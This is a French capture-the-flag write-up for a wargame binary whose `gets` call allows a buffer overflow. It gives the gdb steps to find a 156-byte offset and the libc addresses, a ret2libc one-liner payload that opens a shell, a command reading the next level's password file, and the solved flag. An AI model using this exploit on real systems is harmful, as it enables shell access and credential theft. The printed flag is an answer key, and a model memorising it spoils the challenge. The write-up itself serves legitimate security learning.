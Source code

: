 1. Le programme fork, le parent va rentrer dans la boucle infinie, et l'enfant dans la premiere condition. L'utilisation de la fonction `gets` cree une vulnerabilite que l'on peut exploiter.

2. On passe gdb en mode follow-child avec la commande `set follow-fork-mode child`.

3. Obtention de l'offset
   ```
   (gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
   [...]
   0x41326641 in ?? ()
   ```
   > Offset de 156

4. Etant donne que l'on ne peut pas faire de syscall on va utiliser la methode `RET2LIBC`.

   ```
   # Addresse de system
   (gdb) info function system
   [...]
   0xf7e6aed0  system

   # Addresse d'exit
   (gdb) info function exit
   [...]
   0xf7e5eb70  exit

   # Addresse de "/bin/sh"
   (gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
   0xf7f897ec
   ```

```
(python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level04

cat /home/users/level05/.pass
```
> Flag: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
